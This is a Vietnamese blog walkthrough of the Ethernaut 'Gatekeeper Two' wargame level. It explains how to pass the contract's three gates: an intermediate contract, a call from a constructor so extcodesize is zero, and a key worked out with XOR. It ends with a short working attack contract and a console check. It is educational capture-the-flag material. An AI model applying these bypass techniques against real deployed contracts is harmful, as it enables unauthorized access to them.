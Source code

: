 ```yaml
---
layout: post
title: "The Ethernaut: 14 - Gatekeeper Two"
mathjax: true
---
```

# 14. Gatekeeper Two 　★★★★★★

**Nhiệm vụ**: vượt qua 3 cánh cổng khác và thay đổi địa chỉ của cửa vào

```js
pragma solidity ^0.4.18;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

## Phân tích & Solution

Ta sẽ phân tích cách vượt qua từng cửa một giống như bài [GatekeeperOne](http://dotrungkien.github.io/2018/06/21/the-ethernaut-13/)

### Cửa số 1

```js
modifier gateOne() {
  require(msg.sender != tx.origin);
  _;
}
```

`tx.origin` sẽ là địa chỉ nguồn nơi phát đi giao dịch, là một ai đó, `msg.sender` là địa chỉ gọi tới hàm hiện tại

Có nghĩa là, khi ta gọi trực tiếp một hàm contract thông thường thì `msg.sender` và `tx.origin` là giống nhau, còn nếu ta gọi hàm đó thông qua một contract trung gian thì `tx.origin` vẫn sẽ là ta, nhưng `msg.sender` sẽ là contract trung gian.

Vì thế ta chỉ cần dùng một contract trung gian là có thể vượt qua cửa số 1.

### Cửa số 2

```js
modifier gateTwo() {
  uint x;
  assembly { x := extcodesize(caller) }
  require(x == 0);
  _;
}
```

`extcodesize(caller)` chính là lấy ra lượng code chứa trong `caller` gọi đến contract `GatekeeperTwo` này. `caller` có thể là người (account thông thường), cũng có thể là contract.

một điều kiện quan trọng ở đây chính là `require(x == 0)`, có nghĩa là `caller` không có tí code nào ? hay caller chỉ có thể là người. Điều này chẳng phải đã phủ nhận điều kiện ở gate 1 rồi hay sao ? làm thế nào để ta có thể qua được 2 cửa cùng một lúc được ?

Đó chính là lúc ta cần đến `yellow paper` - tài liệu đặc tả kỹ thuật của ethereum, trong đó có đoạn:

> During initialization code execution, EXTCODESIZE on the address should return zero, which is the length of the code of the account while
CODESIZE should return the length of the initialization cod

có nghĩa là trong contract thì trong constructor codesize vẫn là 0, chỉ sau khi hoàn thành constructor thì codesize mới có giá trị.

Điều này gợi ý ta vượt qua gate 2 bằng cách gọi hàm enter ngay trong constructor của contract tấn công, nó vừa đảm bảo ta dùng contract trung gian, lại vừa đảm bảo `codesize == 0`. Yeah!

### Cửa số 3

```js
modifier gateThree(bytes8 _gateKey) {
  require(uint64(keccak256(msg.sender)) ^ uint64(_gateKey) == uint64(0) - 1);
  _;
}
```

điều kiện này rất là dễ, chỉ đơn thuần là một phép *XOR* mà thôi. Ta biết rằng nếu `a XOR b = c` thì `b = a XOR c`, một tính chất rất cơ bản của *XOR*. Do đó:

```js
uint64(_gateKey) = uint64(keccak256(msg.sender)) ^ (uint64(0) - 1)
```

có một điều lưu ý ở đây, do chúng ta sử dụng contract trung gian để tấn công, vì thế địa chỉ `msg.sender` ở đây chính là địa chỉ của contract trung gian, nên trong code của contract trung gian, ta phải thay thế `msg.sender` bằng `address(this)`

Cuối cùng code của contract tấn công sẽ như sau:

```js
contract Backdoor {
  function Backdoor (address _target) public {
    GatekeeperTwo(_target).enter(bytes8((uint64(uint64(keccak256(address(this)))^(uint64(0) - 1)))));
  }
}
```

đơn giản phải không. Paste lên Remix, compile với địa chỉ `_target` là địa chỉ instance của bạn.

![png]({{ site.url }}/assets/images/GatekeeperTwo.png)

Kiểm tra lại xem entrant đã đổi thành địa chỉ của mình chưa ?

```js
await contract.entrant()
"0xf32fd9e7d64a3b90ce2e5563927eff2567ebd96b"
```

Submit && All done!

## Bình luận

Đây là một bài tập theo kiểu dạng "biết thì rất dễ, không biết thì không biết đằng nào mà lần". Phần `assembly { x := extcodesize(caller) }` thực sự là một trick rất khó nhằn.

Enjoy coding!